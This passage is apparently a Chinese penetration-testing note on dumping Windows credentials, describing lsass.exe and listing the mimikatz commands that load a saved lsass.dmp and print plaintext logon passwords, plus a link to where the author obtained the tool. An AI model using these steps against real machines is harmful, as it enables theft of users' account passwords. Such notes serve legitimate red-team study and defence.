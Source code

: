 ```
lsass.exe是一个系统重要进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略。 
```

**这里利用mimikatz获取明文密码，保存lsass下来放入mimikatz同目录下（64位）
用x64位右键管理员运行打开
mimikatz（内网渗透工具，可在lsass.exe进程中获取windows的账号明文密码）**

这里的minikatz我在github上下载的没有exe文件。。。可能是被直接删掉了，最后从下面这个大佬的网盘上下的

https://blog.csdn.net/weixin_45663905/article/details/108013149

用管理员权限才能打开：
![在这里插入图片描述](img/adc0289c0840a86b09fe66133c450ed8.png)
具体步骤：

```
//提升权限
privilege::debug
//载入dmp文件
sekurlsa::minidump lsass.dmp
//读取登陆密码
sekurlsa::logonpasswords full 
```

搜索一下password